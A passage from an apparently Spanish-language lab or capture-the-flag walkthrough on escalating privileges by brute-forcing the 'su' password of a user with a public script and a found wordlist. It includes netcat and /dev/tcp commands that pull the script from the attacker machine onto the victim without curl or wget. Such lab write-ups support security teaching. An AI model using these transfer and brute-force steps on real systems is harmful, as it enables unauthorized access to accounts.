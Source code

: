 Por lo que intentaremos aplicar fuerza bruta al usuario **johntheripper** para ello necesitamos un script de fuerza bruta como el sigueinte: [Su-bruteForce](https://github.com/TerrorAterrador/su-BruteForce), vemos que no tenemos **curl** o **wget** para [Transferirnos](<../../🐱‍💻 Introducción al Hacking/🧗‍♂️ Técnicas de escalada de privilegios/✅ Consideraciones/Transferir archivos.md>) el script.

![](<../images/Pasted image 20240914172817.png>)

Deberemos usar el medio tradicional para [Transferirnos](<../../🐱‍💻 Introducción al Hacking/🧗‍♂️ Técnicas de escalada de privilegios/✅ Consideraciones/Transferir archivos.md>) el archivo, es decir ejecutaremos el siguiente comando en la máquina atancate:

```bash
nc -nlvp 443 < su-brute-force-sh.sh
```

Y en la máquina victima el siguiente comando: 

```bash
cat < /dev/tcp/172.17.0.1/443 > su-brute-force.sh
```

Vemos como hemos conseguido [Transferirnos](<../../🐱‍💻 Introducción al Hacking/🧗‍♂️ Técnicas de escalada de privilegios/✅ Consideraciones/Transferir archivos.md>) el script correctamente sin necesidad de usar **wget** o **curl**.

![](<../images/Pasted image 20240914172940.png>)

Ejecutaremos el script [Su-BruteForce](https://github.com/TerrorAterrador/su-BruteForce) para ver las opciones:

![](<../images/Pasted image 20240914172958.png>)

Una vez vistas las opciones ejecutaremos el script especificando el nombre de usuario **johntheripper** y el diccionario que hemos encontrado en `/opt/.hidden/words`.
